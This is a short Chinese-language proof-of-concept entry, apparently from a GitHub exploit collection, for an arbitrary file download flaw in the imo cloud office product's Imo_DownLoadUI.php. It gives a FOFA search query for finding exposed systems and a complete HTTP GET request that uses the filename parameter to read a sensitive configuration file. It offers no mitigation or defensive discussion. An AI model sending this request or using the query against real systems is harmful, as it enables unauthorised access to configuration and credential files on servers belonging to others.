 # imo云办公室接口Imo_DownLoadUI.php任意文件下载漏洞

imo云办公室由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件

## fofa

```javascript
app="IMO-云办公室"
```

## poc

```javascript
GET /file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
```

![imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409111031851.png)